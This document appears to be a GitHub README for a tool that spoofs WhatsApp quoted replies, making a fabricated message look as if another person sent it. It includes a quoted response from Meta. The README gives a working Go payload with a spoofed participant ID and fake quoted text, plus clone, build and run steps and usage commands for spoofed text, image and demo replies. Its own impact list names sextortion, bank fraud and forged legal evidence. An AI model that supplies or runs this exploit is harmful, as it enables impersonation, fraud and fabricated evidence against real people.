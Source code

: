 # Whatsapp Spoofing impersonate of reply message

All official WhatsApp clients, upon receiving a "Message Reply" payload (QuotedMessage), do not validate whether the "ContextInfo" of this "QuotedMessage" is valid/exists ("StanzaId" and "Participant"). This allows a malicious actor to send in private chats or groups a "QuotedMessage" of a message that never existed on behalf of another person. This is highly critical and dangerous.

## Impact

Malicious individuals can use this to create issues such as:

- Arguments between couples
- Sextortion scams
- Frauds against financial institutions
- In Brazil, someone could take a cellphone to a notary office to register a "Notarial Act" to create a record that could be used in legal proceedings, claiming that the original message was deleted but keeping the evidence of the "QuotedMessage."
- Creating embarrassing situations involving public figures (famous actors, politicians, etc.)

## What Meta/Facebook said about this

Hi Gustavo,

Thanks for your report. This issue has been reported to us before, and we consider it to be an accepted risk. When someone replies to a message, the WhatsApp client copies the text available within the app and creates a graphical representation that helps people follow the conversation, the owner of this quoted message is always the person replying to the original message. WhatsApp uses end to end encryption and doesn’t store messages on its servers, therefore we don’t have a single source of truth for these messages. People always have the option of blocking a sender who tries to spoof messages and they can report problematic content to us. Although we appreciate the report, such issues do not qualify under our bug bounty program.

Thanks,

Teo

## App Versions

Latest version on all platforms

## The problem

Users: UserA, UserB; UserA is not known by UserB

UserA (SCAMMER) sends a spoofed messages to UserB in response to a message that UserB did never send

Spoofed message payload:

```go
msg := &waProto.Message{
    ExtendedTextMessage: &waProto.ExtendedTextMessage{
        Text: proto.String("Some text"),
        ContextInfo: &waProto.ContextInfo{
            StanzaId:     proto.String("Some Random ID"), //Random ID
            Participant: proto.String("5511999999999@s.whatsapp.net"), //Spoofed user ID
            QuotedMessage: &waProto.Message{
                Conversation: proto.String("Some Spoofed text"), //QuotedMessage Spoofed text
            },
        },
    },
}
```

Send the Spoofed Payload:

```go
resp, err := cli.SendMessage(context.Background(), chatID, msg) 
// chatID is the ID of the chat you want to send the message to, can be a group or the same number as the spoofed user ID
```

## POC

[Watch the video](https://youtu.be/_WL6hpAvNh8)

[![Watch the video](https://img.youtube.com/vi/_WL6hpAvNh8/hqdefault.jpg)](https://youtu.be/_WL6hpAvNh8)

![poc_whatsapp_spoofing-impersonate-of-reply-message.png](files/poc_whatsapp_spoofing-impersonate-of-reply-message.png)

## Exploit

#### Clone the repository.

```bash
git clone https://github.com/ARESHAmohanad/whatspoof.git
```

### Install dependencies.

```bash
cd whatspoof
go mod download
go get 
```

### Build

```bash
go build 
```

### Running

```bash
./whats-spoofing
```

### Usage

#### Retrieve Group Information

```txt
getgroup <jid>
```

#### List Groups

```txt
listgroups
```

#### Send Spoofed Reply

```txt
send-spoofed-reply <chat_jid> <msgID:!|#ID> <spoofed_jid> <spoofed_text>|<text>
```

#### Send Spoofed Image Reply

```txt
send-spoofed-img-reply <chat_jid> <msgID:!|#ID> <spoofed_jid> <spoofed_file> <spoofed_text>|<text>
```

#### Send Spoofed Demo Message

```txt
send-spoofed-demo <toGender:boy|girl> <language:br|en> <chat_jid> <spoofed_jid>
```

#### Send Spoofed Demo Message with Image

```txt
send-spoofed-demo-img <toGender:boy|girl> <language:br|en> <spoofed_jid> <spoofed_img>
```

